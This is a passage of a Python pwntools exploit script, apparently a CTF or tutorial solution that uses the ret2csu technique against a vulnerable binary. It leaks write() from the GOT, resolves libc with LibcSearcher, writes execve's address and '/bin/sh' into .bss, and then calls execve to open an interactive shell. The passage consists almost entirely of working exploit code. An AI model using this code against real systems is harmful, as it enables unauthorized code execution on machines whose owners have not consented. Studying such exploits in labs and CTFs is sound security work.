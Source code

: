 ```python
    sh.send(payload)
    sleep(1)


sh.recvuntil('Hello, World\n')
## RDI, RSI, RDX, RCX, R8, R9, more on the stack
## write(1,write_got,8)
csu(0, 1, write_got, 8, write_got, 1, main_addr)

write_addr = u64(sh.recv(8))
libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
execve_addr = libc_base + libc.dump('execve')
log.success('execve_addr ' + hex(execve_addr))
##gdb.attach(sh)

## read(0,bss_base,16)
## read execve_addr and /bin/sh\x00
sh.recvuntil('Hello, World\n')
csu(0, 1, read_got, 16, bss_base, 0, main_addr)
sh.send(p64(execve_addr) + '/bin/sh\x00')

sh.recvuntil('Hello, World\n')
## execve(bss_base+8)
csu(0, 1, bss_base, 0, 0, bss_base + 8, main_addr)
sh.interactive()
```
